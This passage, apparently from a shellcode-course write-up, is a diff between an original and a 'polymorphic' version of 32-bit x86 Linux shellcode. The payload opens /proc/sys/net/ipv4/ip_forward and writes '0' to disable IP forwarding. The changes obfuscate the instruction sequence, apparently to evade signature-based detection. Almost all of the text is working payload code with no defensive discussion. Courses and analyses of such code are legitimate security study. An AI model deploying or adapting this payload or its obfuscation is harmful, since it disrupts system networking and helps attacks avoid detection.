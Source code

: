 And these are the differences between the two versions:

    
    --- orig.asm	2014-05-12 12:03:17.691780762 +0200
    +++ poly.asm	2014-05-12 11:58:44.086799226 +0200
    @@ -1,34 +1,37 @@
     global _start
     section .text
     _start:
    -	xor eax,eax
    -	push eax
    -	push 0x64726177
    -	push 0x726f665f
    -	push 0x70692f34
    -	push 0x7670692f
    +	xchg ebx,eax
    +	xor eax,ebx
    +	mov dword [esp-4], eax
    +	sub esp,4
    +	mov dword [esp-4],0x64726177
    +	mov dword [esp-8], 0x726f665f
    +	sub esp,8
    +	mov ebx,0x2f347069
    +	rol ebx,16
    +	push ebx
    +	mov ebx,0x6310101a
    +	add ebx,0x13605915
    +	push ebx
     	push 0x74656e2f
     	push 0x2f737973
    -	push 0x2f636f72
    -	push word 0x702f
    +	mov ebx,0x6f722f63
    +	rol ebx,16
    +	mov dword [esp-4],ebx
    +	sub esp,4
    +	push WORD 0x702f
     	mov ebx,esp
    -	xor ecx,ecx
     	mov cl,0x1
     	mov al,0x5
     	int 0x80
     	mov ebx,eax
    -	xor ecx,ecx
    -	push ecx
     	push 0x30
     	mov ecx,esp
    -	xor edx,edx
     	mov dl,0x1
     	mov al,0x4
     	int 0x80
    -	xor eax,eax
    -	add al,0x6
    +	mov al,0x6
     	int 0x80
    -	xor eax,eax
    -	inc eax
    -	xor ebx,ebx
    +	mov al,0x1
     	int 0x80
